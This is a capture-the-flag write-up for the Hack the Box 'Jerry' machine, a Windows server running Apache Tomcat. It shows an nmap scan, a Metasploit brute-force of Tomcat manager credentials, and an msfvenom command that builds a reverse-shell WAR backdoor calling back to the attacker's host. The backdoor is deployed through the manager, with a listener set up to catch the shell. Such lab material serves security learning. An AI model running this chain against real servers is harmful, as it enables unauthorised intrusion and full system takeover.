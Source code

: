 # Machine: Jerry

Date: 2024-06-14

## Overview

This write-up details my approach to compromising the "Jerry" machine on Hack the Box. The Jerry machine is a Windows Server 2012 R2 system running an Apache Tomcat server. Below are the steps I followed to successfully exploit the machine and obtain the necessary flags.

## Enumeration

Nmap Scan Results:

```bash
nmap -sV -sC -p8080 <IP> -oN jerry_nmap_scan.txt
```

The scan revealed the following open port:

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
```

## Exploitation

Using Metasploit to Find Tomcat Admin Credentials:

```bash
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS <IP>
run
```

This module helped identify valid Tomcat manager credentials.

### Accessing Tomcat Manager:

I logged into the Tomcat Manager at http://jerry.htb:8080/manager/html using the discovered credentials. The manager page allows the deployment of WAR files.

### Creating a WAR Backdoor:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<MY IP> LPORT=80 -f war -o revshell.war
```

I verified the contents of the WAR file:

```bash
jar -xvf revshell.war
```

### Setting up a Multi/Handler Listener:

In Metasploit:

```bash
use exploit/multi/handler
set PAYLOAD java/jsp_shell_reverse_tcp
set LHOST <MY IP>
set LPORT 80
run
```

### Deploying the WAR Backdoor:

I uploaded revshell.war via the Tomcat Manager interface and accessed the deployed backdoor at http://jerry.htb:8080/revshell/fqsyuctsb.jsp. This provided a reverse shell with NT Authority privileges.

## Post-Exploitation

### Privilege Escalation:

Upon obtaining the reverse shell, I had NT Authority privileges, which is the highest privilege level on a Windows machine.

## Flag Capture:

Located and captured the user and root flags.

## Conclusion

Compromising the Jerry machine involved identifying an open port running Apache Tomcat, discovering valid credentials for the Tomcat manager, deploying a WAR backdoor, and obtaining a reverse shell. This exercise reinforced key concepts in web server exploitation and privilege escalation on Windows systems.

***
